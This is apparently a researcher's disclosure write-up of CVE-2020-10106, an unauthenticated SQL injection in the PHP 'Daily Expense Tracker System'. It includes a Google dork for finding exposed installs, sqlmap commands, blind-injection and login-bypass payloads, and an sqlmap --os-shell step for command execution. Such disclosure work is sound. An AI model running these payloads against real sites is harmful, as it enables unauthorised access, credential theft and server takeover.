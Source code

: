 ```yaml
---
title: CVE-2020-10106
author: frosty
date: 2020-03-04 12:00:00 +0000
categories: [cve]
tags: [cve]     # TAG names should always be lowercase
---
```


Daily Expense Tracker System (DETS) is vulnerable to SQL injection. This post will be a brief write up about discovery and exploitation of CVE-2020-10106. These vulnerabilities exist in the Daily Expense Tracker System project version 1, which you can download from PHPGurukul, [here](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/).

According to PHPGurukul's website, this application has been downloaded 499 times - at time of vulnerability discovery. Using Google Dorks method of `intitle:"Daily Expense Tracker - Login"` there are some sites which could be vulnerable - unknown without confirmation.

* * *

## Discovering the Vulnerability

I installed the DETS application using Bitnami XAMPP for Linux (aka LAMPP). The user lands on a login page within index.php. After static code analysis, it appeared that the SQL query could be vulnerable. More specifically, the email parameter. I believe that the password parameter is not vulnerable to SQL injection is because user input is hashed on the client side. This means that SQL injction payloads will be hashed and therefore cannot be interpreted by the SQL engine as special characters. The same cannot be said about the email parameter, which directly takes user input in the SQL query.

![Image](assets/img/cve/2020-10106/image-1024x442.png)

* * *

## Verifying the Vulnerability

I captured a login request with Burpsuite and exported it to a file, which allows further investigation using sqlmap.

![Image](assets/img/cve/2020-10106/image-1.png)

![Image](assets/img/cve/2020-10106/image-2-1024x562.png)

I appreciate that the sqlmap output could be squashed a lot in this instance. Here is the key information:

```
$ sqlmap -r <login-request-file> --dbms=mysql

sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:

---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    payload: email=oliver@frostylabs.net' AND (SELECT 7366 FROM (SELECT(SLEEP(5)))NgAy) AND 'KQtM'='KQtM&password=p4ssw0rd&login=login
---
```

The application is vulnerable to unauthenticated time-based SQL injection. Using sqlmap's `--dump` flag, it is possible to dump the users table, and the associated account hash.

![Image](assets/img/cve/2020-10106/image-3.png)

![Image](assets/img/cve/2020-10106/image-4-1024x146.png)

When using valid credentials in the sqlmap query, it is possible to perform a boolean based SQL injection.

```
---
parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=test@gmail.com' AND 7009=7009 AND 'wGtm'='wGtm&password=123&login=login
---
```

* * *

## Further Exploitation

In addition to `index.php`, the same vulnerabilities as described above exist in `register.php` and `forgot-password.php`.

In addition to the Blind SQL injection, using the following payload allows for a complete bypass of the login prompt. However, the login prompt requires that an email is input, otherwise the user is not permitted to submit the form. This is overcame by intercepting the POST request, and altering the query. The HTTP 302 response as seen in the image below proves that the SQL injection has been successful.

```
a' OR '1'='1'; -- -
```

![Image](assets/img/cve/2020-10106/image-12-1024x249.png)

* * *

### Bonus

It is possible to leverage the SQL injection vulnerability to get remote command execution. However, the RCE vulnerability depends on SQLi therefore in my opinion the web application is not directly vulnerable to RCE, but rather RCE through SQLi. SQLMap is able to obtain this with the `--os-shell` flag.

```
sqlmap -r <login-request-file> --dbms=mysql --os-shell
```

![Image](assets/img/cve/2020-10106/image-5-1024x673.png)
